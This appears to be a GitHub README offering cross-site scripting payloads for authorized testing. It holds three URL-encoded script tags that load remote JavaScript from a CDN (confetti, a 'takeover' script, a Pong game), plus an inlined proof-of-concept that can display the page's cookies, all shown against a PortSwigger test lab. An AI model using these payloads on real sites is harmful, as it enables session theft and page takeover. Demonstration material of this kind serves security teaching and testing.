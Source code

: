 # XSS Payloads for Educational Purposes

<p align="center">

  <!-- Status / Purpose -->
  <img src="https://img.shields.io/badge/Status-Educational-blueviolet?style=for-the-badge&logo=github" alt="Educational" />
  <img src="https://img.shields.io/badge/Use-Authorized_Testing_Only-red?style=for-the-badge&logo=handshake" alt="Authorized Testing Only" />
  <img src="https://img.shields.io/badge/Focus-XSS%20Payloads-orange?style=for-the-badge&logo=javascript" alt="XSS Payloads" />

  <!-- Ethical / Legal -->
  <img src="https://img.shields.io/badge/Responsible_Disclosure-Required-critical?style=for-the-badge&logo=checkmarx" alt="Responsible Disclosure Required" />
  <img src="https://img.shields.io/badge/License-MIT-green?style=for-the-badge&logo=open-source-initiative" alt="MIT License" />

  <!-- Technologies -->
  <img src="https://img.shields.io/badge/Language-JavaScript-yellow?style=for-the-badge&logo=javascript" alt="JavaScript" />
  <img src="https://img.shields.io/badge/Hosted_on-jsDelivr-lightgrey?style=for-the-badge&logo=cdn" alt="jsDelivr" />

  <!-- Community / Reference -->
  <a href="https://portswigger.net/web-security/cross-site-scripting">
    <img src="https://img.shields.io/badge/Lab-OWASP/PortSwigger-blue?style=for-the-badge&logo=bugcrowd" alt="PortSwigger Labs" />
  </a>
  <a href="https://owasp.org/www-community/xss/">
    <img src="https://img.shields.io/badge/Reference-OWASP_XSS-orange?style=for-the-badge&logo=owasp" alt="OWASP XSS" />
  </a>

</p>


###  Cross Site Scripting ( XSS ) Vulnerability  

### Overview : XSS is a web security flaw that allows an attacker to inject and execute malicious scripts in a victim’s browser by exploiting insufficient input/output encoding or sanitization; it can lead to account takeover, session theft, UI redress, or delivery of phishing/malware.

---

## IMPORTANT: SECURITY & ETHICAL USE DISCLAIMER

This repository contains XSS (Cross-Site Scripting) payloads for educational and ethical security testing purposes only.

### Authorized Use Cases:
- Security research and education
- Penetration testing on systems you own or have explicit written permission to test
- Developing and testing defensive security measures

### Strictly Prohibited:
- Any unauthorized testing on websites or systems you do not own
- Any malicious or illegal activities
- Use in a manner that violates any laws

**By using this repository, you agree to use this information responsibly. The maintainer is not responsible for any misuse or damage.**

---

### Remote XSS Payload Examples

These payloads demonstrate how attackers can load external JavaScript files from remote servers to execute malicious code.

### How Remote XSS Payloads Work:
- The payload uses `<script>` tags with `src` attributes pointing to external JavaScript files
- When the vulnerable page renders, the browser fetches and executes the remote script
- The scripts are hosted on CDN services like jsDelivr, making them accessible from anywhere
  
- This technique allows attackers to:
  
  - Bypass length restrictions (small payload loads large script)
  - Update malicious code without changing the initial payload
  - Load complex libraries and frameworks for advanced attacks

## Payload Examples

### Payload 1
```
%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/confetti_nl.js%3E%3C/script%3E
```
Payload triggered on portswigger test XSS site:
```
https://subdomain1.portswigger-labs.net/xss/xss.php?x=%3Cscript%3E(function()%7B%27use%20strict%27%3Bfunction%20tryAlert(msg%2CtimeoutMs)%7BtimeoutMs%3DtimeoutMs%7C%7C350%3Btry%7Bvar%20fired%3Dfalse%3Bvar%20t%3DsetTimeout(function()%7Bfired%3Dtrue%3B%7D%2CtimeoutMs)%3Btry%7Balert(msg)%3B%7Dcatch(e)%7BclearTimeout(t)%3Breturn%20false%3B%7DclearTimeout(t)%3Breturn%20true%3B%7Dcatch(e)%7Breturn%20false%3B%7D%7Dfunction%20showToast(text%2Cttl)%7Bttl%3Dtypeof%20ttl%3D%3D%3D%27number%27%3Fttl%3A8000%3Btry%7Bvar%20d%3Ddocument.createElement(%27div%27)%3Bd.textContent%3Dtext%3Bd.style.cssText%3D%5B%27position%3Afixed%27%2C%27right%3A12px%27%2C%27bottom%3A12px%27%2C%27z-index%3A2147483647%27%2C%27background%3Argba(0%2C0%2C0%2C0.86)%27%2C%27color%3A%23fff%27%2C%27padding%3A8px%2012px%27%2C%27border-radius%3A8px%27%2C%27font-family%3Asystem-ui%2CSegoe%20UI%2CArial%2Csans-serif%27%2C%27font-size%3A13px%27%2C%27box-shadow%3A0%206px%2024px%20rgba(0%2C0%2C0%2C0.4)%27%2C%27pointer-events%3Anone%27%2C%27opacity%3A0%27%2C%27transition%3Aopacity%20.22s%27%5D.join(%27%3B%27)%3Bdocument.documentElement.appendChild(d)%3BrequestAnimationFrame(function()%7Bd.style.opacity%3D1%3B%7D)%3BsetTimeout(function()%7Btry%7Bd.style.opacity%3D0%3BsetTimeout(function()%7Btry%7Bd.remove()%3B%7Dcatch(e)%7B%7D%7D%2C240)%3B%7Dcatch(e)%7B%7D%7D%2Cttl)%3B%7Dcatch(e)%7B%7D%7Dfunction%20runConfettiAndMessage()%7Btry%7Bvar%20s%3Ddocument.createElement(%27style%27)%3Bs.textContent%3D%27.c%7Bposition%3Afixed%3Btop%3A-10vh%3Bpointer-events%3Anone%3Banimation%3Afall%209s%20linear%20forwards%3Bwill-change%3Atransform%2Copacity%7D%40keyframes%20fall%7Bto%7Btransform%3AtranslateY(110vh)%20rotate(720deg)%3Bopacity%3A0%7D%7D.msg%7Bposition%3Afixed%3Bleft%3A50%25%3Btop%3A50%25%3Btransform%3Atranslate(-50%25%2C-60%25)%3Bfont-family%3Amonospace%2CSegoe%20UI%2CArial%3Bcolor%3A%23fff%3Bbackground%3Argba(0%2C0%2C0%2C0.72)%3Bpadding%3A14px%2020px%3Bborder-radius%3A10px%3Bfont-size%3A22px%3Bz-index%3A2147483650%3Bopacity%3A0%3Bpointer-events%3Anone%7D%27%3Bdocument.head.appendChild(s)%3Bvar%20w%3Ddocument.createElement(%27div%27)%3Bw.style.cssText%3D%27position%3Afixed%3Btop%3A0%3Bleft%3A0%3Bwidth%3A100vw%3Bheight%3A100vh%3Boverflow%3Ahidden%3Bz-index%3A2147483647%3Bpointer-events%3Anone%27%3Bdocument.body.appendChild(w)%3Bvar%20cols%3D%5B%27%23c8102e%27%2C%27white%27%2C%27%233350ec%27%5D%3Bfor(var%20i%3D0%3Bi%3C220%3Bi%2B%2B)%7Bvar%20e%3Ddocument.createElement(%27div%27)%3Be.className%3D%27c%27%3Be.style.left%3D(50%2B(Math.random()-0.5)*100)%2B%27vw%27%3Be.style.top%3D(Math.random()-0.2)*10%2B%27vh%27%3Be.style.width%3D(3%2BMath.random()*7)%2B%27px%27%3Be.style.height%3D(10%2BMath.random()*18)%2B%27px%27%3Be.style.background%3Dcols%5BMath.floor(Math.random()*cols.length)%5D%3Be.style.borderRadius%3D(Math.random()*60)%2B%27%25%27%3Be.style.animationDelay%3D(Math.random()*1.5)%2B%27s%27%3Be.style.transform%3D%27rotate(%27%2BMath.floor(Math.random()*360)%2B%27deg)%27%3Bw.appendChild(e)%3B%7Dvar%20m%3Ddocument.createElement(%27div%27)%3Bm.className%3D%27msg%27%3Bm.textContent%3D%27Education%20matters%20%E2%80%94%20just%20hack%20ethically%27%3Bdocument.body.appendChild(m)%3BsetTimeout(function()%7Bm.style.transition%3D%27opacity%20.9s%20ease%2C%20transform%20.9s%20ease%27%3Bm.style.opacity%3D1%3Bm.style.transform%3D%27translate(-50%25%2C-50%25)%27%3B%7D%2C700)%3BsetTimeout(function()%7Btry%7Bw.remove()%3Bm.remove()%3B%7Dcatch(e)%7B%7D%7D%2C12000)%3B%7Dcatch(e)%7B%7D%7Dtry%7Bvar%20query%3D(location%26%26location.search)%3Flocation.search%3A%27%27%3Bvar%20wantCookie%3D/%5Cbpoc_cookie%3D1%5Cb/.test(query)%3Bvar%20subject%3DwantCookie%3F(typeof%20document.cookie!%3D%3D%27undefined%27%3Fdocument.cookie%3A%27(no-cookie)%27)%3A(typeof%20document.domain!%3D%3D%27undefined%27%26%26document.domain%3Fdocument.domain%3A(location%26%26location.hostname%3Flocation.hostname%3A%27unknown%27))%3Btry%7Bconsole.info(%27%5Bconfetti_nl.js%5D%20PoC%20run%3B%20subject%3D%27%2Csubject%2C%27poc_cookie%3D%27%2CwantCookie%2C%27ts%3D%27%2Cnew%20Date().toISOString())%3B%7Dcatch(e)%7B%7Dvar%20alerted%3DtryAlert(subject%2C350)%3Bif(!alerted)%7BshowToast(subject%2B%27%20(PoC)%27)%3Btry%7Bconsole.info(%27%5Bconfetti_nl.js%5D%20alert%20blocked%3B%20showed%20toast%20as%20fallback.%27)%3B%7Dcatch(e)%7B%7D%7Delse%7Btry%7Bconsole.info(%27%5Bconfetti_nl.js%5D%20alert%20shown%20(user%20dismissed).%27)%3B%7Dcatch(e)%7B%7D%7DrunConfettiAndMessage()%3B%7Dcatch(err)%7Btry%7Bconsole.error(%27%5Bconfetti_nl.js%5D%20runtime%20error%27%2Cerr)%3B%7Dcatch(e)%7B%7D%7D%7D)()%3C/script%3E&context=html
```
- **Action:** This payload loads a remote JavaScript file that creates visual effects (confetti)
- **Impact:** Demonstrates how XSS can modify page content and user experience
- **Host:** Uses jsDelivr CDN to serve the script directly from this GitHub repository
- **Purpose:** Shows non-destructive payloads used for proof-of-concept testing


### Payload 2
```
%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/takeover.js%3E%3C/script%3E
```

Payload triggered on portswigger test XSS site:
```
https://subdomain1.portswigger-labs.net/xss/xss.php?x=%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/takeover.js%3E%3C/script%3E&context=html
```
- **Behavior:** Loads a script that demonstrates complete page takeover capabilities
- **Examples:** Could include functionality like redirecting users, displaying fake login forms, or defacing content
- **Impact:** Shows the severe impact of XSS vulnerabilities when combined with remote script loading
- **Note:** The actual malicious logic resides on the remote server, not in the initial payload


### Payload 3
```
%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/pong.js%3E%3C/script%3E
```

Payload triggered on portswigger test XSS site:
```
https://subdomain1.portswigger-labs.net/xss/xss.php?x=%3Cscript%20src=//cdn.jsdelivr.net/gh/asifnawazminhas/xss-payloads@main/pong.js%3E%3C/script%3E&context=html
```
- **Action:** Loads an interactive Pong game script onto the vulnerable page
- **Demonstrates:** How XSS can inject complex, interactive content
- **Observation:** Shows that even "benign" payloads use the same vulnerability chain as malicious ones
- **Takeaway:** Highlights the importance of proper input validation regardless of payload intent




